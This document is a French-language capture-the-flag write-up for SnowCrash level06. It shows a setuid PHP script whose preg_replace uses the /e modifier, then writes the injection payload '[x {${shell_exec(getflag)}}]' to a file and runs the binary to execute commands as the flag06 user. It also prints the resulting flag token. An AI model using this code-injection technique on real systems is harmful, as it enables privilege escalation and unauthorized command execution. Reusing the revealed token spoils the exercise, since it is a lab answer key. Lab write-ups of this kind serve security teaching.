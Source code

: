 
# **Level 06**

Pour ce level06, 2 fichier dans le repertoire courant

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

```

On affiche donc le `.php`

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}
function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}
$r = x($argv[1], $argv[2]);
print $r;

?>

```
> On a reformater l'output pour rendre la code plus lisible

On remarque que le premier arguments de la fonction est parser via des `preg_replace`, notament le premier aui utilise l'option `/e` qui permet d'interpreter le contenue comme du code PHP

En comprenant le `REGEX` utiliser des les preg replace on peux ecrire dans un fichier un ligne permettant d'executer `getflag`

```
level06@SnowCrash:~$ cat /var/crash/level06f 
[x {${shell_exec(getflag)}}]
```

Puis on passe ce fichier a l'executable qui peux executer le code avec les droits de flag06 (`rws`)

```
level06@SnowCrash:~$ ./level06 /var/crash/level06f 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```


> ### NEXT : [Level 07](/level07/resources/README.md)
